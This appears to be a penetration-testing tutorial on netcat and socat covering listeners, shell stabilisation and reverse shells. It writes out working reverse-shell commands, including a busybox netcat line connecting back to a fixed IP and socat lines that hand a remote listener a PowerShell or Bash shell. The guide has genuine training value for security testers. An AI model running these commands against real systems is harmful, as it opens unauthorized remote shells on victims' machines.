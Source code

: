 # Netcat and Socat - A Comprehensive Guide

Netcat and Socat are powerful tools commonly used for network communication, particularly in penetration testing and security assessments. Both tools can facilitate remote access, reverse shells, and port listening. This guide provides an in-depth overview of their usage and syntax.

---

## Netcat

**Netcat** (often abbreviated as `nc`) is a versatile networking tool that can establish connections between machines, listen on ports, and even transfer data. It is often referred to as the "Swiss Army knife" of networking tools.

### Key Netcat Options

- **`-l`**: Listen mode. This instructs Netcat to listen on a specified port for incoming connections.
- **`-p`**: Specify the port number on which to listen or connect.
- **`-n`**: Numeric-only mode. Disables DNS resolution for hostnames and uses IP addresses directly.
- **`-vV`**: Verbose output, providing useful information such as connection attempts and errors.
- **`-vv`**: Very verbose mode, offering even more detailed debugging information.
- **`-k`**: Keep listening after a client disconnects. Useful for long-running services or repeated connections.

### Listening for Connections (Server Side)

To listen on a specific port (e.g., port 1234), you can run the following command:
```
nc -lnvp 1234
```

- **`-l`**: Listen mode.
- **`-n`**: Skip DNS resolution.
- **`-v`**: Verbose output, helpful for debugging.
- **`-p`**: Specify the port number (`1234`).

### Connecting to a Listener (Client Side)

On the client side, use the following command to connect to the server's IP address and port:
```
nc MACHINE_IP 1234
```

- Replace `MACHINE_IP` with the actual IP address of the server you're connecting to.
- Replace `1234` with the port you are listening on.

### Making a Stable, Interactive Shell

When using Netcat for a reverse shell or remote access, the shell might not be interactive or fully functional. To stabilize it and gain more control (e.g., to switch users), you can use Python to spawn a stable Bash shell:
```
python -c 'import pty; pty.spawn("/bin/bash")
```

### Alternative Method for Stabilizing the Shell

If you're unable to use Python, you can establish a stable shell using the following commands:

1. **On the attacker machine**: Set up a listener on port 4444:

    ```
    nc -lnvp 4444
    ```

2. **On the victim machine**: Connect back to the attacker's IP and port, using `busybox` to invoke a reverse shell:

    ```
    busybox nc 10.21.156.95 4444 -e bash
    ```

3. **To stabilize the shell on the listener side**: Run the following command in the listener:

    ```
    script -qc /bin/bash /dev/null
    ```

4. **Set terminal type** (optional but recommended):

    ```
    export TERM=xterm
    ```

This will provide you with a stable and fully interactive shell session.

---

## Socat

**Socat** (SOcket CAT) is an advanced alternative to Netcat, with more features and greater flexibility. It supports various types of network connections, including TCP, UDP, and Unix domain sockets. Socat is especially useful for handling more complex scenarios.

### Basic Socat Reverse Shell Listener

To create a basic reverse shell listener using Socat, use the following syntax:
```
socat TCP-L:<port> -
```

- **`TCP-L:<port>`**: Listen on the specified TCP port.
- **`-`**: Standard input/output.

This command will allow you to listen on a port for incoming connections and forward data to and from the terminal.

### Victim Machine - Connecting Back to the Listener

#### Windows (Reverse Shell with PowerShell)

On a Windows machine, use the following command to connect back to the attacker’s listener:
```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

- **`TCP:<LOCAL-IP>:<LOCAL-PORT>`**: Specifies the local IP address and port of the listener.
- **`EXEC:powershell.exe,pipes`**: Executes a PowerShell shell using Socat.

#### Linux (Reverse Shell with Bash)

On a Linux machine, use the following command to connect back to the listener:
```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

- **`TCP:<LOCAL-IP>:<LOCAL-PORT>`**: Specifies the local IP address and port of the listener.
- **`EXEC:"bash -li"`**: Executes a Bash shell in interactive mode.

### Conclusion

Both **Netcat** and **Socat** are indispensable tools for penetration testers, security professionals, and anyone involved in network security assessments. While Netcat is a more lightweight and straightforward tool, Socat offers more advanced capabilities, such as the ability to work with multiple protocols and complex use cases. Depending on the situation and the level of control needed, both tools can be used to facilitate remote access, file transfers, and vulnerability exploitation.

By mastering these tools, you can efficiently manage network connections, reverse shells, and other essential tasks in penetration testing and ethical hacking.
